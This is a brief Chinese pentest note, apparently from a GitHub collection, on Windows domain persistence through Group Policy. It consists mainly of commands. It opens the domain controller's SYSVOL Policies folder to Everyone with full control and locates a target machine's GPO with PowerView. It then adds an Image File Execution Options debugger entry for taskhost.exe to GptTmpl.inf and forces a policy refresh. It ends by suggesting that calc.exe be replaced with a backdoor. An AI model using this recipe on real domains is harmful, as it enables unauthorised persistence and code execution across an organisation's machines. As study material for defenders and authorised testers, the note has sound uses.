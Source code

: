 	域的组策略和脚本存放在域控机的C:\Windows\SYSVOL\sysvol\zone.com\Policies目录，域内机器定时访问以更新策略
	域控机设置policies为everyone完全控制
	>cacls C:\Windows\SYSVOL\sysvol\zone.com\Policies /e /t /c /g "EveryOne":f
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/548.png)

	使用powerview查询域内机对应策略文件
	PS> Get-NETGPO -ComputerName sub2k8.zone.com |fl gpcfilesyspath
	打开C:\Windows\SYSVOL\sysvol\zone.com\Policies\{id}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf末尾添加
	[Registry Values] MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskhost.exe\Debugger=1,c:\windows\system32\calc.exe [Version] signature="$CHICAGO$" Revision=1
	手动刷新策略
	>gpupdate /force
	劫持taskhost.exe，可替换c:\windows\system32\calc.exe为后门文件或语句。